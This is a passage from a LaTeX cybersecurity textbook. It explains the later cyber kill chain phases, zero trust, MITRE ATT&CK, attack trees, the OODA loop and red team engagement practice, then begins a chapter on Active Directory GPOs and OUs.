From the attacker's view, the objective here is to ultimately gain control—whether that means executing arbitrary code to escalate privileges, or installing a persistent backdoor. In many cases, exploitation also involves disabling security tools or altering configurations to make the attacker's life easier later.
For defenders, this is a critical choke point. The best protection is to remove the attacker's opportunity before they get this far. Some recommendations to achieve this may include, but are not limited to:

\begin{itemize}
    \item Keeping all operating systems (OS), applications, and plugins patched.
    \item Disabling unnecessary features (like macros) wherever possible.
    \item Running updated endpoint protection capable of detecting both known and behavior-based threats.
\end{itemize}

Using Endpoint Detection and Response (EDR) to spot unusual execution patterns in near-real-time. Once the exploit is launched, the attacker's goal is crystal clear: establish control, expand access and reach, and position themselves for the next stage of their operation. That may involve compromising additional systems, capturing higher-privilege credentials, or gaining administrative rights to dominate the environment.

If the exploit leverages a known vulnerability, there is still a slim chance to blunt its impact with remaining safeguards such as Data Execution Prevention (DEP)—a security feature in Windows, Linux, and macOS that blocks code executions from non-executable memory regions-and anti-exploit protections embedded in modern antivirus solutions.

Other defensive measures at this point are containment-oriented. Automatic privilege escalation and de-escalation policies can greatly limit how long an attacker can retain elevated rights. Sandboxing can isolate suspicious processes or files in a controlled environment, allowing analysts to safely observe the exploit's behaviors, extract Indicators of Compromise (IOCs), and prepare defenses against similar attacks in the future.

It is important to remember: exploitation is rarely the endgame. The real objective is to deepen access, to move closer to core systems, data, and privileges that matter most. If exploitation succeeds, the attacker has then transitioned from "outside" to "inside." At this point, they are no longer just probing-they have an operational presence in the environment. From here on, the campaign moves into the next phase: \textbf{Installation}.

\section{Installation: Making It Stick}
For the attacker, exploitation is just the opening act. The real payoff comes when they can stay remaining quiet, invisible, and for as long as it takes to achieve their mission, or until they are rudely booted from the network.

Persistence can take many forms such as hidden services, malicious scheduled tasks, registry modifications, startup scripts, or implanted backdoors. A skilled adversary does not always rush, and as we all know too well that rushing anything delivers mistakes. An adversary might restart the entire kill chain internally, running fresh reconnaissance now that they have landed inside, probing for additional targets and higher-value systems they can breach, or use as pivoting points to access other parts of the restricted network.

The dual objectives in this phase are clear:
\begin{enumerate}
    \item Maintain uninterrupted access despite restarts, patches, or credential resets.
    \item Escalate privileges to gain broader and deeper control over the environment.
\end{enumerate}

This is also the point where traditional, signature-based detection struggles. Advanced Persistent Threats (APTs) often use subtle, custom-built techniques that will not trigger classic intrusion detection rules. Zero day exploits and fileless malware can hide in plain sight.

It is at this point that Endpoint Detection and Response (EDR) become vital. Unlike basic Endpoint Protection Platforms (EPP) that focus primarily on prevention, EDR is designed to detect and respond when prevention has failed. A capable EDR solution can:
\begin{itemize}
    \item Identify malicious activities that have bypassed initial security layers.
    \item Contain the infection before it spreads.
    \item Provide forensic data in near-real-time for investigation and remediation.
\end{itemize}

Once an infected system is confirmed, restoration to a known stable state becomes the defender's priority. That means verified clean backups, secure reimaging, and validation that the attacker's persistence mechanisms have been completely eradicated. Skipping this step risks leaving hidden toeholds that can reignite the compromise at a later point in time.

From here, an attacker with persistence and elevated privileges is positioned to take the next steps: internal reconnaissance, lateral movement, and ultimately, the completion of their mission.

\section{Command and Control: The Attacker's Lifeline}
By the time the operation reaches this phase, the attacker has accomplished something significant: the target system is compromised, persistence has been established, and the door is propped wide open. If the earlier steps have been executed cleanly, their toehold will survive any removal efforts from defenders such as patching, rebooting, and remedial efforts deem unsuccessful.

From here, the compromised information system can serve two primary roles. It might be used immediately to carry out the attacker's mission: exfiltrating data, sabotaging services, or manipulating systems. Or it may simply sit, quietly awaiting further instructions from a Command and Control (C2) server, acting as a sleeper agent until the moment to strike is right.

C2 channels are the attacker's covert lifeline. They all remote operators to conduct activities such as:
\begin{itemize}
    \item Push and introduce new payloads or tools into the compromised environment.
    \item Issue commands for reconnaissance, lateral movement, or privilege escalation.
    \item Exfiltrate stolen data in controlled bursts to avoid detection.
\end{itemize}

The best defensive posture at this stage is to focus on detecting anomalies and limiting the attacker's reach and maneuvering space.
\begin{itemize}
    \item Network segmentation ensures that even if one system is compromised, the attacker cannot freely roam the entire environment.
    \item Application segmentation enforces restrictions at the service and workload levels, narrowing what can be reached from the infected host(s).
\end{itemize}

Detection tools should be fine-tuned to look for changes in normal network traffic patterns and behaviors (drawn from previous "normal" baselines of network traffic activities).
\begin{itemize}
    \item Sudden spikes in data or ingress and egress network traffic being sent to or from external IP addresses.
    \item Transfers to geographic regions outside normal business activities.
    \item CPU or memory spikes at odd hours that do not match expected usage times.
\end{itemize}

Lateral movement goes hand-in-hand with privilege escalation and is considered the art of pivoting from one compromised system to another. Lateral movement is also often the attacker's next move from here. It is how they deepen their reach, their access, compromise higher-valued assets, and position themselves to strike and hit their true target. Once inside, they may use tools like Mimikatz to harvest credentials, or exploit trusts between information systems to leapfrog across the networks.

Proactive defenses really shine here. Breach and Attack Simulation (BAS) platforms can emulate realistic C2 activities, lateral movements, and data exfiltration scenarios inside your environment. By running these controlled tests, defenders can better identify their blind spots, validate detection capabilities, and fine-tune their response procedures before facing an actual adversary.

At this point, the attacker's tether to the victim is strong. Breaking it, severing that C2 covert communications channel, is essential to disrupting their campaign. If left unchecked, the next and final stage is where the operation's ultimate objective is realized.

\section{Actions on Objectives: Completing the Mission}
At this stage, the attacker's work has come full circle. The information system is fully infected and compromised, persistence has been established and is in secured place, and Command and Control covert channels are live. Now comes the end-game, where the attacker's actions are taken to fulfill the mission.

The exact nature of these actions is driven entirely by the attacker or what the organizational objectives and goals are for the mission. For some attackers, motivation is driven by financial gain-siphoning payment data, holding systems for ransom, or selling access to dark web marketplaces and forums. For other attackers, it is driven by political or strategic espionage, quietly collecting intelligence over weeks, months, and sometimes even years! And sometimes, the goal is simply just to pivot around, to move laterally across the network until a higher-value target has been discovered and identified.

Lateral movement is common here. The attacker may initiate a new internal reconnaissance phase, mapping systems, enumerating accounts, and probing for weaknesses in the network core. Each successful hop can lead them closer to sensitive assets, databases, domain controllers, or proprietary intellectual property or trade secrets.

The COVID-19 pandemic accelerated this risk ten-fold. Practically overnight, the network perimeter expanded far beyond the office walls, stretching into home offices, personal devices, and often poorly secured internet, WiFi, and Bluetooth connections. Remote work was not just for employees; system and network administrators, the very people tasked with defending the crown jewels, were suddenly performing their duties from spare bedrooms and kitchen tables.

Under normal circumstances-although, in cybersecurity, "normal" is a relative term-part of an administrator's morning routine or checkbox from a 'daily tasks list' might involve a quick visual inspection of the servers-checking status lights, scanning for unusual messages that marquee on server LED screens, or simply walking the data center floor to spot anything suspicious. These small, routine habits form an informal but effective layer of security.

When those "eyes on" spot checks vanished, attackers noticed. They understood-or outright knew-that the defenders were now remote (for the most part), and that physical systems no longer had a Big Brother. This absence quickly became a golden opportunity for attackers as this newfound absence introduced a larger and widened attack surface, turning the physical infrastructure into a more tempting attack playground. Without boots on the ground, malicious activities at the hardware level or in the data center's immediate environment could go unnoticed for far longer than before.

\section{Zero Trust}
Zero trust security is a cybersecurity framework that enforces strict identity verification for every user and device attempting to access resources on a network. Zero trust assumes that no user or device is inherently trustworthy, regardless of whether they are inside or outside of the network perimeter. It is a security model that requires continuous verification and authentication for every access request, implementing a \textit{"never trust, always verify"} approach to enhance security. This model moves away from the traditional perimeter-based security, where trust was assumed within the network, and instead focuses on granular access control and continuous validation of identities and devices.

Furthermore, the core philosophy assumes that potential threats exist both internally and externally, meaning neither users nor systems should be given implicit trust. A key principle of this approach is \textbf{least-privilege access}, granting individuals only the minimum permissions necessary to perform their duties (e.g., fulfill obligations and expectations specific to their role). This, in turn, reduces unnecessary exposure to sensitive information systems and helps to thwart privilege escalation attempts, a critical stage in many attack chains.

Zero trust operates using several key principles:
\begin{itemize}
    \item Verify every request: All users and devices must authenticate and be authorized before accessing any resources.
    \item Least privilege: Users receive only the minimum access necessary to perform their duties, reducing the blast radius of any compromise.
    \item Micro-segmentation: Security perimeters and boundaries are broken into smaller, isolated zones, limiting lateral movements and enforcing \textit{"privacy by default"} with applications.
    \item Multi-Factor Authentication (MFA): More than one form of verification is required; passwords alone are insufficient.

\end{itemize}

Zero trust architectures also incorporate \textit{micro-segmentation,} the practice of dividing the network into smaller, isolated zones so that access to one segment does not inherently grant access to other surrounding networks. When implemented and enforced at the application level, properly configured micro-segmentation inherently supports the \textit{privacy by default} principle by ensuring that access and data exposure are limited to only what is strictly necessary.

\textit{Multi-Factor Authentication (MFA)} is another core security control, requiring users to provide more than one form of verification before access is granted. Often referred to as triple authentication, MFA is based on the principle of validating of identity verification and validation. The model comes from the established three authentication factor categories:

1. \textit{Something you know:} Knowledge-based credentials such as passwords, PINs, or answers to security question challenges.
2. \textit{Something you have:} Physical or virtual items such as security tokens, smart cards, or mobile authentication apps.
3. \textit{Something you are:} Inherent biometric traits like fingerprints, facial recognition, or iris scans (hello Cyberdyne Networks).

Adopting zero trust doesn't completely eliminate risk as nothing ever will, but it dramatically reduces an attacker's ability to escalate privileges and reach their ultimate objectives whatever they may be.

TL;DR: in a zero trust model, no entity is automatically trusted; every request for access must be authenticated and authorized. No questions asked. No if's, and's, or but's.

\section{The MITRE ATT\&CK Framework}
For defenders, the \textbf{MITRE ATT\&CK} knowledge base is an invaluable tool. It catalogs known adversary tactics and techniques, mapping them to real-world threat behaviors. It also provides guidance on detection, mitigation, and response strategies tailored to specific attack patterns. Organizations can use it as the foundation for threat modeling, incident response planning, and security control validation.

When attackers reach this phase, the clock is ticking. Every second matters. Rapid detection, containment, and remediation can still prevent catastrophic damage — but only if the defenders have prepared for this moment long before it arrives.




For defenders, the MITRE ATT\&CK knowledge base is a valuable resource, cataloging adversarial \textit{Tactics, Techniques, and Procedures (TTPs)} and offers guidance on detection and mitigation strategies.
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{att&ck.png}
    \caption{MITRE ATT\&CK Framework}
    \label{fig:placeholder}
\end{figure}

\section{Beyond Prevention: Building a Full-Spectrum Security Program}
As we have seen so far, prevention alone is not enough to stop a determined adversary. Defenders and organizations need a balanced security program that combines prevention, detection, and response into a continuous cycle. A well-structured offensive security program is one of the most effective ways to strengthen security posture and identify weaknesses across all three areas.

This approach ensures not only that security controls are effective, but also that the security staff have the skills and readiness to respond appropriately when incidents occur. It goes well beyond penetration testing. While pentesting is valuable, it is limited in scope and-when treated as the sole focus-can foster a false sense of security. Compliance checks alone are not equally sufficient enough either.

That said, launching an offensive security program comes with challenges, as most endeavors do, with the most immediate being executive buy-in. One way to build support is to start small: conduct a targeted penetration test on carefully chosen applications or network segments, prioritized through a risk assessment. The results can highlight quick wins, particularly high-risk issues, and help justify further investment.

For many organizations, the program may begin as a "one-man" operation supported by specialized external providers and experts. Over time, as the value and business impact become clear, the team can grow organically. Without demonstrating that value to leadership, the initiative risks remaining an underfunded side project rather than a true success story.

\section{Red Teaming: The Sharpest Pre-Compromise Tool}

When it comes to proactive, pre-compromise testing, Red Teaming stands out. It is a goal-based adversarial exercise in which a skilled team simulates a real-world attack against predefined objectives. Red teams use the same tools, techniques, and methods that genuine adversaries employ-often in long-form engagements that involve reconnaissance, exploitation, lateral movement, and persistence.

Unlike traditional penetration tests, Red Teaming is interactive and iterative, mirroring the ebb and flow of a live intrusion. Its purpose is to access whether the organization can prevent such attacks from succeeding, detect them if they do, and respond effectively to restore normal operations. Pairing a red team with a blue team (the defenders) provides the most thorough end-to-end review of the organization's true security readiness.

Because modern threats are increasingly becoming more and more complex as the days pass, defenders need a solid way to anticipate attacker behavior. Few organizations have the resources to defend against every possible threat vector. Zero day vulnerabilities, in particular, can bypass signature-based detections entirely. Attempting to address these without a structured methodology is a recipe for failure.

Incident responder and triage analysts must have a tried and true repeatable methodology for identifying and mitigating unknown threats to safeguard their most critical assets. Understanding the threat landscape is only half of the battle. The better we understand how our organization can be attacked, the better we can design and deploy effective countermeasures. After all, you can't protect what you don't know is out there.

\section{Threat Modeling and Attack Trees}
Threat modeling is the process of visualizing and analyzing all the ways in which an adversary might target an environment. Now, this is thinking like your adversary, or adopting an adversarial mindset to the max. One of the most effective tools for this is the attack tree. This structured model puts the defender in the attacker's shoes, mapping out the possible pathways to a given goal.

The root of the tree represents the attacker's ultimate objective, for example, "Access customer data" or "Disrupt business goals." Branches represent sub-goals or intermediate states, while leaf nodes represent concrete attacker actions. Nodes can be defined as:
Root node: The attacker's primary goal
OR node: Only one child action is required to succeed
AND node: All child actions must succeed
Leaf node: The final, concrete action taken by the attacker

To build an attack tree, ask yourself questions, such as these:
What would be the attacker's goal in our environment?
What would be the impact or range of destruction the attack can inflict the further into the network it go?
What attacks could be used against these areas?
What steps are required to start and finish each attack, and what is the attack's ultimate goal or objective?
Do there exist alternatives to achieve the same step twice?

Attack trees are not limited to digital threats-they can also model physical and hybrid attacks. For instance, an attacker might bypass digital controls by exploiting physical vulnerabilities: leaving an infected USB stick in a parking lot, tailgating into a secured facility, or tampering with on-site hardware, such as server or network appliance cables, or power outlets to cause disruptions.

Let us consider a simple example. Let us say that we want to analyze unauthorized physical access to one of our secured buildings. The root node would be "Gain Unauthorized Physical Access." From there, we would map possible entry points and the steps required for each, refining until each branch ends in trivial, actionable steps.

By visualizing the attack surface in the same manner as your adversarial opponent, you can identify weak points-both technical and non-technical-and design targeted countermeasures that will produce results-winning ones at that.

\subsection{Attack Tree Example-Goal: Gaining Unauthorized Physical Access}

\textbf{Root Node:} Gain Unauthorized Physical Access to Secured Building

\textbf{Branch 1-Tailgating (OR)}
\begin{itemize}
    \item Follow (or piggyback) an employee into the building without using credentials \textbf{(OR)}
    \begin{itemize}
        \item Blend in with a group entering
        \item Carry packages to appear as a delivery person
        \item Pretend to have a conversation with an employee
        \item Take advantage of busy entry times (shift changes, lunch rush)
    \end{itemize}
\end{itemize}

\textbf{Branch 2-Social Engineering (OR)}
\begin{itemize}
    \item Convince security or reception to grant entry \textbf{(OR)}
    \begin{itemize}
        \item Impersonate an employee who "forgot their badge"
        \item Claim to be a contractor or vendor
        \item Present a forged work order or service ticket
    \end{itemize}
\end{itemize}

\textbf{Branch 3-Exploiting Physical Weaknesses }(OR)
\begin{itemize}
    \item Bypass or tamper with entry controls \textbf{(OR)}
    \begin{itemize}
        \item Pick a door lock
        \item Use a stolen or cloned access card
        \item Exploit door mechanical failures (e.g., misaligned latch)
        \item Force the door open after authorized user exits (door not fully closed)
    \end{itemize}
\end{itemize}

\textbf{Branch 4-Using Unsecured Entry Points (OR)}
\begin{itemize}
    \item Access via less monitored points \textbf{(OR)}
    \begin{itemize}
        \item Loading dock or delivery entrance
        \item Emergency exit doors propped open
        \item Rooftop or maintenance access points
        \item Windows left unlocked or open
    \end{itemize}
\end{itemize}

\textbf{Branch 5-Inside Assistance (OR)}
\begin{itemize}
    \item Gain help from an insider \textbf{(OR)}
    \begin{itemize}
        \item Disgruntled employee grants entry
        \item A bribed or coerced staff member provides access credentials
        \item Insider temporarily disables entry alarms
    \end{itemize}
\end{itemize}

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{attacktree.png}
    \caption{Figure 2. Attack Tree Example-Gain Unauthorized Physical Access to Secured Building}
    \label{fig:placeholder}
\end{figure}

\section{Linking the Cyber Kill Chain to Attack Trees}
If we place the attacker's \textbf{ultimate goal} at the top of the Cyber Kill Chain and connect each of the chain's seven phases beneath it, what we get begins to look very much like an attack tree. Each phase of reconnaissance, weaponization, delivery, exploitation, installation, Command and Control, and actions on objectives becomes a branch leading toward the goal.

Taking this step further, incorporating the MITRE PRE-ATT\&CK and MITRE ATT\&CK frameworks can enrich these trees by mapping real-world adversarial Tactics, Techniques, and Procedures (TTPs) to each branch. This allows defenders to visualize an attacker's modus operandi in detail, identifying points where detection or disruption is possible.  The MITRE knowledge bases are invaluable for this exact purpose, and there is no reasonable excuse for not leveraging them when building attack trees. Importantly, these trees must account for both physical and digital logical threats, as hybrid attack pathways are common in real-world attack campaigns.

\section{The OODA Loop: A Decision-Making Framework for Threat Analysis}
One challenge in constructing attack trees is determining which threats to prioritize and how to define the goals. In situations where uncertainty is high, the OODA Loop-Observe, Orient, Decide, Act-can be an effective tool for making decisions quickly and staying ahead of an adversary. Originally developed for military strategies, the OODA loop is a learning and decision-making cycle that enables faster adaptation than one's opponent.

\subsection{Observe}
Effective observation begins with \textit{situational awareness}. This means understanding your operational environment in its entirety-the current state of your systems, the capabilities and likely intentions of your adversaries, and the broader physical, technical, and even organizational context. In threat intelligence or threat hunting, observation is essentially the \textit{data collection phase}, where all available information is gathered without drawing any conclusions.

\subsection{Orient}
Orientation is the most critical phase of the loop. Here, the objective is to identify mismatches or errors in previous assumptions, blind spots in detection, or flaws in the adversary's understanding of your environment. In threat hunting, this means analyzing the collected data to define a set of relevant threats, determining how they might manifest under certain circumstances or different scenarios, and exploring possible mitigation. If uncertainty remains high, devote more time and resources to orientation. The goal is to develop and validate models or concepts \textbf{before} they are needed in live operations, and ensure confidence in their effectiveness.

\subsection{Decide}
In this phase, decision-makers form a hypothesis: a prediction of the most effective course of action based on the current model and understanding. This decision represents the best-informed guess on how to respond to a given threat scenario.

\subsection{Act}
The action phase tests the hypothesis in the real environment. If the model holds, the response is effective; if not, the loop starts again with new observations feeding into the next cycle. Ideally, multiple courses of action or controlled experiments are run in parallel to identify the optimal approach more quickly.

The OODA loop is powerful because of its speed and adaptability. In competitive or hostile environments, the side that can run consecutive OODA cycles faster-adapting more quickly than its opponent-will prevail. The "Orient" phase shapes not just how and what we observe, but also how we decide and act, making it the central lever of the loop.

\section{Red Teaming}
As a red teamer, you are playing the role of the "devil's advocate."

Red teams are indispensable for testing emerging operational concepts and challenging existing security measures. A Red Team's sole purpose is simple yet critical: \textbf{to identify weaknesses before the real adversaries exploit them.}

\subsection{Purpose and Value}
Red teaming provides defenders, blue teamers, security teams, and organizations with a realistic, adversary-focused assessment of their standing defensive capabilities. It is the \textbf{only means to accurately evaluate how security controls and measures withstand real-world attack scenarios.} By simulating sophisticated threat actors, Red Teams offer direct insight into whether investments in cybersecurity are paying off in measurable resilience.

Key outcomes of effective Red Teaming include:
Smarter decision-making under realistic threat conditions.
Risk reduction by identifying vulnerabilities that traditional testing misses.
Preparation for the unexpected, including previously unconsidered attack pathways.

In essence, Red Teams help answer the fundamental question:
\textit{"If we were attacked tomorrow, how would we fare?"}

\subsection{Role and Approach}
A mature Red Team does more than just execute attacks-it \textbf{challenges core assumptions} and evaluates the organization's security posture from an attacker, or attacking perspective. This often includes examining attack plans, strategies, and security controls under different hypotheses, producing alternative threat scenarios, and exposing gaps in both technical and procedural defenses.

Effective Red Team operations rely on \textbf{critical and creative thinking}. Members must not only understand the systems and processes in scope but also be able to approach problems from unconventional angles-mirroring the adaptability of real attackers.

\subsection{Essential Attributes for Red Team Members}
+When forming or expanding a Red Team, the following competencies and traits should be prioritized:
Adversarial mindset: Ability to see systems and defenses through the lens of an attacker.
Imagination-Freedom of thought to design unconventional attacks.
Self-awareness: Understanding both the enemy and one's operational limitations (\textit{adopted from Sun Tzu).}
Operational environmental knowledge: Familiarity with critical systems, variables, and decision-making processes.
Experience in cyber wargaming: To include experimentation and simulation best practices.
Confidence to challenge the status quo: Willingness to question assumptions.
Effective communication: Ability to report findings and recommendations.
Leadership and facilitation skills: Guiding engagements and ensuring cohesive team functions.

\section{Operating Principles}
For a Red Team to be truly effective, several structured and procedural requirements must first be met:
Operate with a predefined objective aligned to organizational risk policies.
Maintain independence from the Blue Team while ensuring adequate interaction for mutual learning experiences.
Possess full support from executive leadership to ensure access, scope coverage, and authority.
Adhere strictly to surrounding laws, regulations, organizational policies, and operating procedures, and defined Rules of Engagement (ROE).
Help identify adversary deception and denial strategies.
Assist defenders in assessing confidence levels in their detection and response data.

Trust is paramount. Red Teams handle sensitive data, and in the wrong hands, this intelligence could be catastrophic for the organization.

\section{Key Responsibilities of Red Team Operators}
A well-functioning Red Team will:
1. Test defensive effectiveness against advanced, persistent, and opportunistic threats.
2. Improve incident response capabilities by simulating real-world attack chains.
3. Evaluate internal standards and practices, identifying areas for Blue Team performance optimization.
Identify and mitigate high-impact vulnerabilities before adversaries do.
Execute realistic attack scenarios to obtain access, extract sensitive data, and assess potential business impacts.
Produce actionable reports that detail vulnerabilities, exploitation steps, and recommended avenues for mitigation.
Enhance organizational strategies, creating a roadmap for long-term security improvements and enhancements.
Educate defenders and leadership on newly  evolving or emerging threats and best practices.

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{rtmindmap.png}
    \caption{Red Team mindmap}
    \label{fig:placeholder}
\end{figure}

\section{Internal vs. External Red Team Composition}
When establishing a Red Team, organizations typically face two primary options:

1. Build the team using internal resources
2. Outsource to an external provider for an independent perspective

Each addition has its advantages and limitations.
\begin{itemize}
    \item \textbf{Internal Red Teams} benefit from deep organizational knowledge, familiarity with internal systems, and long-term availability; however, they may lack certain specialized skills or an outsider's objectivity.
    \item External Red Teams bring fresh perspectives, extensive field experience across industries, and access to specialized tooling, but they may require time to understand the organization's unique environment.
\end{itemize}

In practice, many organizations adopt a hybrid approach, combining internal personnel with external specialists to cover all required competencies.

A fully capable Red Team should possess two distinct areas of expertise:
1. Technical Expertise-In-depth skills for developing, configuring, and operating specialized tools during the execution phase of engagements.
2. Tactical Expertise-Skills in threat modeling, scenario development, and aligning simulated attacks with realistic adversary Tactics, Techniques, and Procedures (TTPs).

Across all roles, effective business communication is non-negotiable; Red Team members must be able to explain complex technical findings to both a technical and in ways that non-technical audiences can understand and which operational teams can act upon.

\section{Scoping a Red Team Engagement}
A Red Team engagement is designed to simulate a real-world cyberattack that evaluates an organization's response to threats and tests its resiliency against sophisticated cyberattacks. Unlike narrowly scoped penetration testing engagements, a Red Team exercise should be scenario-driven and not limited to a few predetermined systems in scope.

Key scoping principles include:
\begin{itemize}
    \item Realistic Threat Alignment-Scenarios should be based on credible threat intelligence and reflect adversaries most likely to target the organization.
    \item Organization-Wide Impact-Engagements often involve attempting to gain access to high-value targets anywhere in the enterprise, not just in pre-approved system subsets.
    \item Collaboration with Other Security Teams – Threat Intelligence teams, incident responders, and SOC analysts can contribute valuable data for scenario creation.
\end{itemize}

\section{Rules of Engagement (RoE)}
To ensure safety, legality, and clarity, the Rules of Engagement should be explicitly defined before testing begins. These typically include:

\subsection{1. Goals of the Engagement}

 Examples may include:
\begin{itemize}
    \item Obtaining physical access to a secure server room.
    \item Gaining entry to an environment containing sensitive or regulated data.
    \item Compromising the account of a high-value target such as a C-suite executive.
    \item Taking control of a corporate mobile device.
\end{itemize}

\subsection{2. Exclusions}
\begin{itemize}
    \item Specific techniques are prohibited for safety, legal, or business continuity reasons.
    \item Systems, facilities, or business processes are excluded from the scope.
\end{itemize}

\subsection{3. Testing Period}
\begin{itemize}
    \item Defined start and end dates.
    \item Any blackout periods (e.g., production freezes, peak operational hours).
\end{itemize}

\subsection{4. Compliance \& Legal References}
\begin{itemize}
    \item Applicable laws, corporate policies, and ethical guidelines.
    \item Provider-specific assessment protocols.
    \item Required permissions for all testing activities.
\end{itemize}

\subsection{5. Communication Protocols}
\begin{itemize}
    \item Operational escalation points for technical or safety incidents.
    \item Decision-making authority and emergency contact details.
    \item Timing for sharing results with the Blue Team (e.g., immediate notification for critical vulnerabilities vs. full disclosure at engagement conclusion).
\end{itemize}

\subsection{6. Incident Response Rules}
\begin{itemize}
    \item Process for reporting and remediating critical vulnerabilities discovered during testing.
    \item Steps for handling emergencies that affect safety or business operations.
\end{itemize}

\section{Authorization}
No Red Team activity should begin without \textbf{formal written authorization} from the organization’s designated representative. A \textbf{Letter of Authorization (LoA)} must be issued, particularly for on-site activities, to ensure testing is legally sanctioned and documented.

\section{Indicators of Compromise vs. Tactics, Techniques, and Procedures (TTPs)}
The current approach used by the industry to deal with cyber-attacks is insufficient. This is mainly caused by the market which makes the customers, including enterprises, believe that an Anti-Virus solution combined with a Firewall and some additional automatic tools is sufficient in order to protect from cyber threats. However, these cyber defenses are usually easily bypassed by a motivated and determined attacker. For example, most Anti-viruses are helpless against in-memory only malware or malware signed by a legitimate code signing certificate which might have been stolen by the attacker. Similarly, Firewalls and other network monitoring measures can be bypassed by camouflaging the malicious traffic in such a way that the traffic generated by the malware seems legitimate or inaccessible by the monitoring tools. It’s common to see malware successfully communicating over the HTTP protocol which mimics normal user’s behavior. In addition, the traffic can be encoded or encrypted making it difficult to analyze in an automatic approach. Finally, even the anti-Zero-Day countermeasures can be bypassed by attackers as some of those solutions are freely (e.g., EMET) or easily accessible for well-resourced attackers. Given enough motivation, determined attackers could install the defense mechanisms they need to bypass and study them until they develop successful exploits.

Another approach used within the industry to combat intrusion is to entirely rely on security software or appliances which use a pre-compiled and constantly updated list of Indicators of Compromise (IOCs). While this approach can be more comprehensive and could provide better results in detection of an intrusion compared to the classical AV/FW approach, it is still insufficient, because it is reactive by nature. This is because IOCs are compiled after the analysis of certain infections and thus can only provide protection against known threats. Moreover, these IOCs are accessible to any motivated threat actor and can therefore be used to adjust their tools to successfully perform future campaigns. Therefore, relying on these static indicators as a mechanism to identify APTs will have low impact on a broader malicious operation that is carried out by a determined and sophisticated threat.

Once the correlation between effort required and the obstacles that defenders put in place is understood, the importance of fighting the threat actor’s TTPs rather than static IOCs becomes obvious. Additionally, the impact that the exposure will have on the attacker increases with every step going up the pyramid illustrated in Figure 1. Therefore, it is important to redesign the current approach and implement a behavior-oriented detection and incident response methodology in order to stop attacks from occurring or making the recovery more efficient. 


%%%%%%%%%%%%%%%%%%%%% chapter.tex %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% sample chapter
%
% Use this file as a template for your own input.
%
%%%%%%%%%%%%%%%%%%%%%%%% Springer-Verlag %%%%%%%%%%%%%%%%%%%%%%%%%%
%\motto{Use the template \emph{chapter.tex} to style the various elements of your chapter content.}
\chapter{Guide to AD GPOs and OUs}
\label{intro} % Always give a unique label
% use \chaptermark{}
% to alter or adjust the chapter heading in the running head

\begin{abstract}
Active Directory (AD) serves as the lifeblood of enterprise network identity and access management, with \textit{Group Policy Objects (GPOs)} and Organizational Units (OUs) forming critical components of centralized, hierarchical administration. Organizational Units function as logical containers within the AD hierarchy, enabling administrators to organize users, computers, and other objects based on administrative needs, geographical locations, or functional requirements. This hierarchical directory structure facilitates scalable management and delegation of administrative responsibilities.

